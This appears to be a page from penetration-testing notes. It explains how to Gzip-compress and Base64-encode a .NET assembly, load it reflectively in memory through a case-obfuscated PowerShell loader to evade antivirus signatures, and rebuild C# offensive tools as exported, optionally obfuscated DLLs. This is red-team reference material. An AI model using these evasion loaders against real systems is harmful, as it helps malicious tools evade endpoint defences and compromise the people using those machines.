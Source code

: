 # .NET Reflective Assembly

- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)

A way to bypass AV signature analysis: you can Gzip-compress and Base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method public):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("\path\to\binary.exe")
[System.IO.MemoryStream] $output = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($output, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$output.Close()
[byte[]] $byteOutArray = $output.ToArray()
$encodedZipped = [System.Convert]::ToBase64String($byteOutArray)
$encodedZipped
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

```powershell
function Invoke-S0m3B1n4ry
{
	[CmdletBinding()]

	PARAM (
		[Parameter(Position = 0, Mandatory = $true)]
		[ValidateNotNullorEmpty()]
		[String]
		$cOmmANd = " "
	)

	$a = NeW-obJeCt sYsTeM.Io.MEMoRysTREaM(,[coNveRT]::frombaSE64sTrINg(""))
	$DEcoMpRESSEd = nEw-obJEct SYsteM.io.CompREsSION.gzIPsTreaM($a, [sYstEM.iO.COMPrEssION.CompRESsIonMODE]::decOmPRESs)
	$OUtpuT = New-oBjeCt SySTeM.IO.MEmorYstREam
	$dEcoMPReSSEd.copYto( $outPUt )
	[BYte[]] $ByTEOuTarrAy = $OUtPUT.toarrAY()
	$RAs = [sySTeM.REfLecTIOn.ASSEmBlY]::load($bYTeOUTArraY)
	$olDconsOLeOuT = [CONSoLe]::out
	$StRInGwritEr = nEW-ObJEct System.IO.STRiNgwRiTEr
	[cONSOLE]::sEtOut($STringWRITer)

	[S0m3B1n4ry.Program]::maiN($COMmaND.SPliT(" "))

	[cOnsolE]::sEtout($olDCONsOleout)
	$resUlTs = $sTRInGWRiter.TOSTring()
	$rESuLTs
}
```




## C\# to Unmanaged DLL
* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}
